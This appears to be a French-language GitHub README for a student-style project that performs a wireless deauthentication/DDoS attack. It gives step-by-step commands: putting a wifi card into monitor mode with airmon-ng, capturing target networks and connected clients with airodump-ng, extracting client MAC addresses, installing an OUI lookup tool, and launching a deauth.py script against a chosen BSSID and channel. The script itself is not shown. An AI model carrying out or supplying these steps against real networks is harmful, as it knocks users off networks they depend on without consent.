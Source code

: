 # ddos_wireless
Projet de création d'une attaque ddos sur un réseau sans fil

## Phase de reconnaissance :
#### Passer l'interface wifi de la machine en mode monitor  

1 - Verifier interfaces Wifi-disponibles :
```
iwconfig
```

2 - Arreter l'interface Wifi :
```
sudo ifconfig wlan0 down
```

3 - Passer en mode monitor :
```
sudo airmon-ng start wlan0
```

4 - Capturer les informations des réseaux Wifi :
```
sudo airodump-ng wlan0mon
```
5 - Information spécifique sur un réseau ( sortie dans output/client )
'''
sudo airodump-ng --bssid <BSSID> -c <channel> -w output/client wlan0mon
'''
#### Repasser en mode managed :

1 - Arreter le mode monitor :
```
sudo airmon-ng stop wlan0mon
```

2 - Reactiver l'interface Wifi :
```
sudo ifconfig wlan0 up
```

## Phase de préparation
#### Recuperation des adresses MAC

1 - Récuperation des adresses MAC des machines connectées au réseau : 
```
awk -F ',' {'print $1'} output/client-01.csv | sed '1,5d' > client.txt
```
2 - Donner les droits au fichier
```
chmod 700 client.txt
```

#### Installation outils
Installation de l'outils de traduction MAC -> Marque (OUI)
```
git clone https://github.com/silverwind/oui.git
sudo apt install npm
npm i -g oui
```

## Phase d'attaque
Il faut penser à recuperer le bssid à attaque avec son channel

```
sudo python3 deauth.py
```

